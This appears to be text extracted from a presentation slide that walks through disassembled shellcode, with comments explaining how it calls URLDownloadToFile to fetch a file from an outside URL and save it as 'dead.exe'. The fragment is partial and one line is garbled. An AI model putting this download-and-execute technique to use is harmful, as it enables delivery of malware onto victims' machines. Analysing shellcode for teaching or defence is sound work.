

Call URLDownloadToFile
000000B9  33C9              xor ecx,ecx              ; ECX = 0
000000BB  8D542424          lea edx,[esp+0x24]       ; EDX = "dead.exe"
000000BF  51                push ecx
000000C0  51                push ecx
000000C1  52                push edx                 ; "dead.exe"
000000C2  EB47              jmp short 0x10b          ; Will see
000000C4  51                push ecx                 ; 0 from 10b
000000C5  FFD0              call eax                 ; Download

...

; Will put URL pointer on the stack as return address (call)
0000010B  E8B4FFFFFF        call dword 0xc4

; http://bflow.security-portal.cz/down/xy.txt

00000110  687474703A        push dword 0x3a707474
00000115  2F                das
00000116  2F                das
62666C            bound esp,[esi+0x6c]
...